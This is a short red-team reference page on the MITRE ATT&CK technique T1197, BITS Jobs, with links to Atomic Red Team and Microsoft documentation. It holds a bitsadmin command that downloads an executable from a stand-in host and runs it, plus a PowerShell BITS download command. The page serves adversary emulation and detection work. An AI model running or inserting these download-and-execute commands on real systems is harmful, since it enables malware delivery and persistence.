 # BITS Jobs

---
* **ID**: T1197
* **Source**: <https://attack.mitre.org/techniques/T1197/>
---

# Details

## BITSAdmin
Download a payload leveraging BITSAdmin:
```
bitsadmin.exe /transfer txt /download /priority normal http://example.com/example.exe %ALLUSERSPROFILE%\example.exe & %ALLUSERSPROFILE%\example.exe
```

## PowerShell
Download a payload leveraging PowerShell:
```
powershell
Start-BitsTransfer -Priority foreground -Source http://example.com/example.exe -Destination C:\clientdir\example.exe
```

# References

* <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md>
* <https://docs.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool>
* <https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal>
* <http://avfisher.win/archives/100>
